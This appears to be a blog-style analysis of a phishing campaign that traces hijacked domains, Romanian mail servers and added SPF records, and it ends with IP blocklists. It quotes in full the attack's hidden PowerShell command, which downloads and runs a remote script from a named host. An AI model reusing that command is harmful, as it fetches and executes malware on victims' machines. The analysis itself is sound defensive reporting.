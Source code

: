 This ZIP file actually contains a .lnk file with the following Powershell command embedded in it:


C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -nop -ep bypass -nologo -c IEX ((New-Object Net.WebClient).DownloadString('http://cristianinho.com/lenty/reasy.ps1'));

I couldn't get a response from the server at cristianinho.com [5.152.199.228 - Redstation, UK], this looks like a possibly legitimate but hijacked domain that uses nameservers belonging to Namecheap. But that's not the only Namecheap connection, because the two "customer" subdomains are also using Namecheap hosting (for the record the subdomains are hosted on - 185.130.207.37 and 185.141.165.204 which is Host1Plus, UK / Digital Energy Technologies, DE).

Three connection to Namecheap is worrying, and certainly we've seen hijacking patterns involving other domain registrars. Or it could just be a coincidence..

The email originated from mx119.argozelo.info on 188.214.88.119 (Hzone, Romania). Just on a hunch, I checked the domain argozelo.info and it appears to be a wholly legitimate site about a Portuguese village, registered at GoDaddy hosted on Blogger. So why does it need a dedicated mail server?

Well.. this particular rabbit hole goes a little deeper. mx119 gives a clue that there might be more than one mailsever, and indeed there are 34 of the critters name mx110.argozelo.info through to mx143.argozelo.info hosted on 188.214.88.110 through 188.214.88.142. But according to Wikipedia, Argozelo only has about 700 inhabitants, so it seems unlikely that they'd need 34 mailservers in Romania.

So, my guess is that argozelo.info has also been hijacked, and hostnames set up for each of the mailservers. But we're not quite finished with this rabbit hole yet. Oh no.

What caught my eye was a mailserver on 188.214.88.110 (the same as mx110.argozelo.info) named mail.localpoolrepair.com which certainly rang a bell because the email was apparently from customer@localpoolrepair.com - yeah, OK.. the "From" in an email can be anything but this can't be a coincidence.

localpoolrepair.com appears to be a legitimate but unused GoDaddy-registered domain, hosted at an Athenix facility in the US. So why is there a mailserver in a Romanian IP block? A DIG at the records for this domain are revealing:


 Query for localpoolrepair.com type=255 class=1  localpoolrepair.com SOA (Zone of Authority)        Primary NS: dns.site5.com        Responsible person: hostmaster@site5.com        serial:2017021207        refresh:3600s (60 minutes)        retry:3600s (60 minutes)        expire:604800s (7 days)        minimum-ttl:3600s (60 minutes)  localpoolrepair.com A (Address) 143.95.232.95  localpoolrepair.com MX (Mail Exchanger) Priority: 10 mail.localpoolrepair.com  localpoolrepair.com NS (Nameserver) dns2.site5.com  localpoolrepair.com NS (Nameserver) dns.site5.com  localpoolrepair.com TXT (Text Field)    v=spf1 ip4:188.214.88.110/31 ip4:188.214.88.112/28 ip4:188.214.88.128/29 ip4:188.214.88.136/30 ip4:188.214.88.140/31 ip4:188.214.88.142/32  ~all
So.. the SPF records are valid for sending servers in the 188.214.88.110 through 188.214.88.142 range. It looks to me as if localpoolrepair.com has been hijacked and these SPF records added to it.

So we have hijacked legitimate domains with presumably a neutral or good reputation, and we have valid SPF records. This means that the spam will have decent deliverability. And then the spam itself addresses the victim by name and has personal details presumably stolen in a data breach. Could you trust yourself not to click the link?

Recommended blocklist (email)
188.214.88.0/24

Recommended blocklist (web)
 5.152.199.228185.130.207.37185.141.165.204
